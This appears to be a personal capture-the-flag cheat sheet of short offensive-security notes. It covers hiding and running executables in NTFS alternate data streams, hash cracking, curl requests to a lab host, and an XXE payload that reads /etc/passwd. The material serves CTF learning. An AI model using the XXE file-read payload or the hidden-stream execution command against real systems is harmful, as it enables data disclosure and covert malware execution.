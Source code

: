 ### Alternate Data Stream (hide .exe in .exe)
- scan malicious EXE in Powershell: `c:\Tools\strings64.exe -accepteula file.exe`
- `-Stream` in the output can relate to ADS
- view ADS using Powershell: `Get-Item -Path file.exe -Stream *`
- execute hidden EXE stream: `wmic process call create $(Resolve-Path file.exe:streamname)`

### Additional Kali downloads
- Download useful lists from Seclists: `sudo apt install seclists`

### Decrypting hashes
- `john hash.txt`

### cURL
- get request: `curl http://10.10.171.117:8081/ctf/get`
- post request with data in body: `curl -X POST --data "flag_please" http://10.10.171.117:8081/ctf/post`
- post request with headers: `curl -X POST -F 'name=linuxize' -F 'email=linuxize@example.com' https://example.com/contact.php`

### Password cracking websites
- https://crackstation.net/
- https://md5decrypt.net/en/
- https://hashes.com/en/decrypt/hash

### XML External Entity (XXE)
XXE Test:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>0x47root</to>
    <from>was</from>
    <heading>here</heading>
    <body>hihi ;)</body>
</note>
```
Output file contents:
```XML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
